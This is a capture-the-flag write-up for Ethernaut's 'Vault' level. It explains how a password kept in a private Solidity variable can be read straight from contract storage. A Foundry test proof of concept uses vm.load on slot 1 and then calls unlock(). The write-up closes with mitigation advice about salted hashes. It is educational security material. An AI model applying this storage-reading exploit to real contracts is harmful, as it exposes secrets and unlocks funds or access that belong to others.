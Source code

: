# Level 8 - Vault

## Objectives

- unlock the vault to pass the level

## Contract Overview

Access to the `Vault` contract is protected by a password. It is set during contract construction. The password string is saved as bytes32 in the `private` variable `password`. The state of the `Vault` is represented by the boolean flag `locked`. The contract is `locked` by default (`locked` is equal to true) and the goal is to change it to `false`.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Vault_slither.png)

## Finding the weak spots

All the storage data on the blockchain is publicly visible and anyone can obtain it.

The `unlock()` function is taking an input `_password` and comparing it with an already set password in the constructor. We can not see the password hardcoded anywhere but the thing about blockchain is all the storage data is publicly visible and anyone can obtain it. The `private` variables are not meant to store "private" data/passwords.

Private state variables (and functions) are only hidden from other contracts. They are visible in the contracts in which they are defined. Any off-chain component can still query contracts storage and access specific storage slot values.

```solidity
  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
```

## Potential attack scenario (hypothesis)

Attacker can query the secret password from the appropriate storage slot via `vm.load()`.

## Plan of the attack

1. Attacker looks at the order of declaration of state variables in the contracts source code.
2. Attacker determines which storage slot will be occupied by the password.
3. Attacker performs a call to read the password from the storage.
4. Attacker can now make a call to the `unlock()` function passing the password as the argument.
5. The `Vault` contract is unlocked.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/08-Vault.t.sol))

```solidity
 emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_string("Starting the exploit...");
        emit log_string(
            "Attacker reads the password from the storage slot number 1..."
        );

        bytes32 passwordFromStorage = vm.load(
            address(vaultContract),
            bytes32(uint256(1))
        );
        emit log_named_bytes32("Password in bytes32: ", passwordFromStorage);

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_string("Converting password to human-readable form...");
        string memory passwordConverted = string(
            abi.encodePacked(passwordFromStorage)
        );
        emit log_named_string(
            "Password converted to string: ",
            passwordConverted
        );

        //Attacker performs a call to read the password from the storage.
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_string(
            "Attacker calls the unlock function with the aquired password..."
        );

        // Attacker can now make a call to the `unlock()` function passing the password as the argument.
        (bool success, ) = address(vaultContract).call(
            abi.encodeWithSignature("unlock(bytes32)", passwordFromStorage)
        );
        require(success, "Transaction failed");

        emit log_string("Vault lock cracked...");

        // Test assertion
        assertEq(vaultContract.locked(), false);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Vault.png)

## Recommendations

- Sensitive information should not be stored on the blockchain in raw form. One way to mitigate the issue would be to store the hash of the password with a `salt` added to it to obfuscate it. Later when a user would like to unlock the `Vault` he would use a function that calculates the hash from the password that he submitted, adds `salt` to it and checks if it matches with the one stored in the storage. This way it would be impossible to just copy the password from storage because to calculate it you need both the `salt` and the password itself.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Solidity by Example](https://solidity-by-example.org/hacks/self-destruct/)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
